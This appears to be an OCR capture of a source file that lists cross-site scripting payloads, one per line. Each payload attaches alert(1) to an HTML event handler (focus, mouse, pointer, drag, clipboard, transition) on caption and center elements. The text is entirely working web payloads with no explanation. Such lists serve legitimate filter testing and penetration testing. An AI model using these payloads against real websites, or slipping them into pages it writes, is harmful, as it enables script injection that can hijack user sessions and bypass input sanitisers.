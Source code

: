 <caption id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></caption>
<caption id=x tabindex=1 onfocus=alert(1)></caption>
<caption id=x tabindex=1 onfocusin=alert(1)></caption>
<caption onafterscriptexecute=alert(1)><script>1</script>
<caption onbeforecopy="alert(1)" contenteditable>test</caption>
<caption onbeforecut="alert(1)" contenteditable>test</caption>
<caption onbeforescriptexecute=alert(1)><script>1</script>
<caption onblur=alert(1) id=x tabindex=1 style=display:block>test</caption><input value=clickme>
<caption onclick="alert(1)" style=display:block>test</caption>
<caption oncontextmenu="alert(1)" style=display:block>test</caption>
<caption oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<caption oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<caption ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</caption>
<caption onfocusout=alert(1) id=x tabindex=1 style=display:block>test</caption><input value=clickme>
<caption onkeydown="alert(1)" contenteditable style=display:block>test</caption>
<caption onkeypress="alert(1)" contenteditable style=display:block>test</caption>
<caption onkeyup="alert(1)" contenteditable style=display:block>test</caption>
<caption onmousedown="alert(1)" style=display:block>test</caption>
<caption onmouseenter="alert(1)" style=display:block>test</caption>
<caption onmouseleave="alert(1)" style=display:block>test</caption>
<caption onmousemove="alert(1)" style=display:block>test</caption>
<caption onmouseout="alert(1)" style=display:block>test</caption>
<caption onmouseover="alert(1)" style=display:block>test</caption>
<caption onmouseup="alert(1)" style=display:block>test</caption>
<caption onmousewheel=alert(1) style=display:block>requires scrolling
<caption onpaste="alert(1)" contenteditable>test</caption>
<caption onpointerdown=alert(1) style=display:block>XSS</caption>
<caption onpointerenter=alert(1) style=display:block>XSS</caption>
<caption onpointerleave=alert(1) style=display:block>XSS</caption>
<caption onpointermove=alert(1) style=display:block>XSS</caption>
<caption onpointerout=alert(1) style=display:block>XSS</caption>
<caption onpointerover=alert(1) style=display:block>XSS</caption>
<caption onpointerrawupdate=alert(1) style=display:block>XSS</caption>
<caption onpointerup=alert(1) style=display:block>XSS</caption>
<center draggable="true" ondrag="alert(1)" style=display:block>test</center>
<center draggable="true" ondragend="alert(1)" style=display:block>test</center>
<center draggable="true" ondragenter="alert(1)" style=display:block>test</center>
<center draggable="true" ondragleave="alert(1)" style=display:block>test</center>
<center draggable="true" ondragstart="alert(1)" style=display:block>test</center>
<center id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></center>
<center id=x tabindex=1 onfocus=alert(1)></center>
<center id=x tabindex=1 onfocusin=alert(1)></center>
<center onafterscriptexecute=alert(1)><script>1</script>
<center onbeforecopy="alert(1)" contenteditable>test</center>
<center onbeforecut="alert(1)" contenteditable>test</center>
<center onbeforescriptexecute=alert(1)><script>1</script>
<center onblur=alert(1) id=x tabindex=1 style=display:block>test</center><input value=clickme>
<center onclick="alert(1)" style=display:block>test</center>
<center oncontextmenu="alert(1)" style=display:block>test</center>
<center oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<center oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<center ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</center>
<center onfocusout=alert(1) id=x tabindex=1 style=display:block>test</center><input value=clickme>
<center onkeydown="alert(1)" contenteditable style=display:block>test</center>
<center onkeypress="alert(1)" contenteditable style=display:block>test</center>
<center onkeyup="alert(1)" contenteditable style=display:block>test</center>
<center onmousedown="alert(1)" style=display:block>test</center>
<center onmouseenter="alert(1)" style=display:block>test</center>
<center onmouseleave="alert(1)" style=display:block>test</center>
<center onmousemove="alert(1)" style=display:block>test</center>
<center onmouseout="alert(1)" style=display:block>test</center>
<center onmouseover="alert(1)" style=display:block>test</center>
<center onmouseup="alert(1)" style=display:block>test</center>